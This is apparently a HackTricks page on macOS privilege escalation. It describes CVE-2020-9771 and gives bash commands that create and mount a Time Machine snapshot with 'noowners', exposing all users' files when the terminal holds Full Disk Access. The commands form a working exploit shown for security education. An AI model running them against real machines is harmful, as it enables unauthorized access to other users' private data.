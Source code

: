 ## TCC - Root Privilege Escalation

### CVE-2020-9771 - mount\_apfs TCC bypass and privilege escalation

**Any user** (even unprivileged ones) can create and mount a time machine snapshot an **access ALL the files** of that snapshot.\
The **only privileged** needed is for the application used (like `Terminal`) to have **Full Disk Access** (FDA) access (`kTCCServiceSystemPolicyAllfiles`) which need to be granted by an admin.

{% code overflow="wrap" %}
```bash
# Create snapshot
tmutil localsnapshot

# List snapshots
tmutil listlocalsnapshots /
Snapshots for disk /:
com.apple.TimeMachine.2023-05-29-001751.local

# Generate folder to mount it
cd /tmp # I didn it from this folder
mkdir /tmp/snap

# Mount it, "noowners" will mount the folder so the current user can access everything
/sbin/mount_apfs -o noowners -s com.apple.TimeMachine.2023-05-29-001751.local /System/Volumes/Data /tmp/snap

# Access it
ls /tmp/snap/Users/admin_user # This will work
```
{% endcode %}

A more detailed explanation can be [**found in the original report**](https://theevilbit.github.io/posts/cve\_2020\_9771/)**.**

## Sensitive Information

This can be useful to escalate privileges:

{% content-ref url="macos-files-folders-and-binaries/macos-sensitive-locations.md" %}
[macos-sensitive-locations.md](macos-files-folders-and-binaries/macos-sensitive-locations.md)
{% endcontent-ref %}

<details><summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary></details>
